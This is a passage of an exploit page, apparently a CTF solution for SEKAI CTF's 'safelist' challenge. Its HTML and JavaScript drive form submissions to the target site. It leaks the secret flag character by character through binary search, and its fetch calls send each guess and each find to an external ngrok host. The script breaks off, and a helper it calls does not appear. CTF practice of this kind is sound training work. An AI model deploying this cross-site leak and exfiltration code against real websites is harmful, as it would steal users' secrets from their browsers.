 ```

```html
<!DOCTYPE html>
<html>
  
  <body>
    start

    <form
      id="f"
      action="http://localhost:1234/create"
      method="POST"
      target="_blank">
      
    </form>

    <form
      id="f2"
      action="http://localhost:1234/remove"
      method="POST"
      target="_blank">
      
    </form>
    <script>
      let flag = "SEKAI{"
      const TARGET = "https://safelist.ctf.sekai.team"
      f.action = TARGET + "/create"
      f2.action = TARGET + "/remove"

      const sleep = (ms) => new Promise((r) => setTimeout(r, ms))
      const send = (data) => fetch("http://server.ngrok.io?d=" + data)
      const charset = "abcdefghijklmnopqrstuvwxyz".split("")

      // start exploit
      let count = 0
      setTimeout(async () => {
        let L = 0
        let R = charset.length - 1
        while (R - L > 3) {
          let M = Math.floor((L + R) / 2)
          let c = charset[M]
          send("try_" + flag + c)
          const found = await testChar(flag + c)
          if (found) {
            L = M
          } else {
            R = M - 1
          }
        }

        // fallback to linear since I am not familiar with binary search lol
        for (let i = R; i >= L; i--) {
          let c = charset[i]
          send("try_" + flag + c)
          const found = await testChar(flag + c)
          if (found) {
            send("found: " + flag + c)
            flag += c
            break
          }
        }
      }, 0)

```